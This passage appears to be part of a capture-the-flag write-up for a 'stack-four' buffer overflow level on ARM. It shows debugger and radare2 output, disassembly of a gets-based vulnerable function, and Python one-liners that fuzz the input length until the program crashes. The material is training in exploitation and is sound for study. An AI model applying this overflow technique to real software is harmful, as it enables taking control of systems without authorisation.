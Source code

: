 ```
gef> p/u $fp - $sp
$9 = 84
```
##### Run the code
```
// trial and error

$ python -c 'print "A"*(74)' | ./stack-four
and will be returning to 0x105bc

$ python -c 'print "A"*(75)' | ./stack-four
and will be returning to 0x105bc
Illegal instruction

$ python -c 'print "A"*(78)' | ./stack-four
and will be returning to 0x105bc
Segmentation fault
```  
##### Symbols
```
[0x00013550]> is~FUNC
077 0x00000560 0x00010560 GLOBAL   FUNC   60 start_level
090 0x00000544 0x00010544 GLOBAL   FUNC   28 complete_level
001 0x000003bc 0x000103bc GLOBAL   FUNC   16 imp.printf
003 0x000003c8 0x000103c8 GLOBAL   FUNC   16 imp.gets
004 0x000003d4 0x000103d4 GLOBAL   FUNC   16 imp.puts
014 0x000003ec 0x000103ec GLOBAL   FUNC   16 imp.exit
015 0x000003f8 0x000103f8 GLOBAL   FUNC   16 imp.__libc_start_main
```
##### Seek and disassemble
```
[0x00013550]> pdf @ 0x00010560
|           ;-- $a:
/ (fcn) sym.start_level 56
|   sym.start_level ();
|           ; var int local_10h @ fp-0x10
|           ; CALL XREF from sym.main (0x105b8)
|           0x00010560      10482de9       push {r4, fp, lr}
|           0x00010564      08b08de2       add fp, sp, 8
|           0x00010568      4cd04de2       sub sp, sp, 0x4c            ; 'L'
|           0x0001056c      0e40a0e1       mov r4, lr
|           0x00010570      50304be2       sub r3, fp, 0x50
|           0x00010574      0300a0e1       mov r0, r3                  ; char *s
|           0x00010578      92ffffeb       bl sym.imp.gets             ; char *gets(char *s)
|           0x0001057c      10400be5       str r4, [local_10h]         ; 0x10 ; 16
|           0x00010580      10101be5       ldr r1, [local_10h]         ; 0x10 ; 16
|           0x00010584      0c009fe5       ldr r0, loc._d_12           ; [0x10598:4]=0x10620 str.and_will_be_returning_to__p ; " \x06\x01" ; const char *format
|           0x00010588      8bffffeb       bl sym.imp.printf           ; int printf(const char *format)
|           0x0001058c      0000a0e1       mov r0, r0
|           0x00010590      08d04be2       sub sp, fp, 8
\           0x00010594      1088bde8       pop {r4, fp, pc}

// complete_level
[0x00010544]> pdf
|           ;-- $a:
/ (fcn) sym.complete_level 24
|   sym.complete_level ();
|           0x00010544      00482de9       push {fp, lr}
|           0x00010548      04b08de2       add fp, sp, 4
|           0x0001054c      08009fe5       ldr r0, loc._d_11           ; [0x1055c:4]=0x105dc

```

  [6435d6f8]: https://azeria-labs.com/functions-and-the-stack-part-7/ "stack explained on ARM"